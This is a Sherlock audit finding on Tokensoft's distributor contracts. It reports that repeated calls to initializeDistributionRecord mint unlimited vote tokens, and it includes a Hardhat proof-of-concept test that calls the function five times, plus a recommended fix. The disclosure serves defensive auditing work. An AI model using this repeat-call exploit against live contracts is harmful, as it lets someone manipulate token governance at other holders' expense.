 Polished Cream Narwhal

high

# Anyone on the merkle tree can spam initializeDistributionRecord and get himself any number of voteTokens

## Summary
Anyone on the merkle tree can spam `initializeDistributionRecord` and get himself any number of voteTokens

## Vulnerability Detail
Due to the poor checks on [AdvancedDistributor](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85) anyone on the merkle tree can just call `initializeDistributionRecord` on most of the distributors and get himself minted some vote tokens.

Example is [TrancheVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/TrancheVestingMerkle.sol) where any user that is on the merkle tree can call [initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/TrancheVestingMerkle.sol#L39-L49)

```jsx
  function initializeDistributionRecord(
    uint256 index, // the beneficiary's index in the merkle root
    address beneficiary, // the address that will receive tokens
    uint256 amount, // the total claimable by this beneficiary
    bytes32[] calldata merkleProof
  )
    external
    validMerkleProof(keccak256(abi.encodePacked(index, beneficiary, amount)), merkleProof)
  {
    _initializeDistributionRecord(beneficiary, amount);
  }
  ```
  From then on [initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L85C1-L85C1) will forward the call to [AdvancedDistributor](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol) where the man issue is. `_initializeDistributionRecord` calls super on the [Distributor](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/Distributor.sol)'s  [_initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/Distributor.sol#L47-L59) where nothing is updated, since the value is the same, and them **AdvancedDistributor**'s [initializeDistributionRecord](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85) mints the vote tokens, without having the sanity check for if there is any update on to the user reward token balance.
  
  ```jsx
    function _initializeDistributionRecord(
    address beneficiary,
    uint256 totalAmount
  ) internal virtual override {
    super._initializeDistributionRecord(beneficiary, totalAmount);
    _mint(beneficiary, tokensToVotes(totalAmount));//@audit always minting on input
  }
```

| Vulnerable contracts                                                                                                                                               |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [TrancheVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/TrancheVestingMerkle.sol)                           |
| [PriceTierVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/PriceTierVestingMerkle.sol)                       |
| [ContinuousVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/ContinuousVestingMerkle.sol)                     |
| [CrosschainTrancheVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/CrosschainTrancheVestingMerkle.sol)       |
| [CrosschainContinuousVestingMerkle](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/CrosschainContinuousVestingMerkle.sol) |                      |


<details> <summary>  PoC </summary>

Place it in [TrancheVestingMerkle.test.ts](https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/test/distributor/TrancheVestingMerkle.test.ts).
```jsx
  it.only("A buyer can initialize before claimingXXX", async () => {
    const user = eligible2
    const distributor = partiallyVestedDistributor
    const [index, beneficiary, amount] = config.proof.claims[user.address].data.map(d => d.value)
    const proof = config.proof.claims[user.address].proof

    // 50% of tokens have already vested
    const claimable = BigInt(amount) / 2n;
    for(let i = 0;i<5;i++){
      await distributor.initializeDistributionRecord(index, beneficiary, amount, proof)
    }

    let distributionRecord = await distributor.getDistributionRecord(user.address)

    expect(distributionRecord.total.toBigInt()).toEqual(
      BigInt(config.proof.claims[user.address].data[2].value)
    )
    // no votes prior to delegation
    expect((await distributor.getVotes(user.address)).toBigInt()).toEqual(0n)

    // delegate to self
    const myDistributor = await ethers.getContractAt("TrancheVestingMerkle", distributor.address, user);
    await myDistributor.delegate(user.address)

    expect(distributionRecord.total.toBigInt()).toEqual(
      BigInt(config.proof.claims[user.address].data[2].value)
    )

    expect(distributionRecord.initialized).toEqual(true)
    console.log("User vote token Balance: " + (await distributor.balanceOf(user.address)).toBigInt());
    console.log("Tokens that have vested: " + (claimable));
  })
  ```
</details>
   
## Impact
Anyone can mint unlimited number or vote tokens.
## Code Snippet
https://github.com/sherlock-audit/2023-06-tokensoft/blob/main/contracts/contracts/claim/abstract/AdvancedDistributor.sol#L77-L85
## Tool used

Manual Review

## Recommendation
You can make the external callable functions have an initialized modifier (or some prevention from multiple calls) or have a sanity check in the **AdvancedDistributor**